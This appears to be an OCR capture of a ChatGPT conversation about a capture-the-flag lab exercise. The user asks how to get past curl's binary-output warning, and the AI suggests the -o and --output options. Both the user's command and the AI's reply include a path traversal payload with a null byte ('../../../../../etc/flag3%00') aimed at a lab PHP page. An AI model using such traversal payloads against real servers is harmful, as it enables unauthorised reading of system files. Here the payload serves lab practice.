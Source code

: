 having this error └─$ curl http://10.10.203.18/challenges/chall3.php -d 'method=POST&file=../../../../../etc/flag3%00' Warning: Binary output can mess up your terminal. Use "--output -" to tell Warning: curl to output it to your terminal anyway, or consider "--output Warning: <FILE>" to save to a file. doing curl how can overcome that situation?

ChatGPT

ChatGPT

The warning you're seeing is because you're sending binary output to your terminal, which can potentially mess up its display. You can overcome this situation by using the `-o` or `--output` option in cURL to redirect the output to a file instead of displaying it directly in the terminal. Here's how you can do it:

**FIRST APPROACH**

`curl http://10.10.203.18/challenges/chall3.php -d 'method=POST&file=../../../../../etc/flag3%00' -o flag3.txt`


NOTE: In the approach of above, it will generate a .txt file 
This command will send the POST request to the URL with the specified data and save the output into a file named `flag3.txt`. You can then view the content of the file safely without worrying about terminal display issues.


==SECOND APPROACH==
Curl http://10.10.203.18/challenges/chall3.php -d 'method=POST&file=../../../../../etc/flag3%00' --output -

It will be printed in the terminal
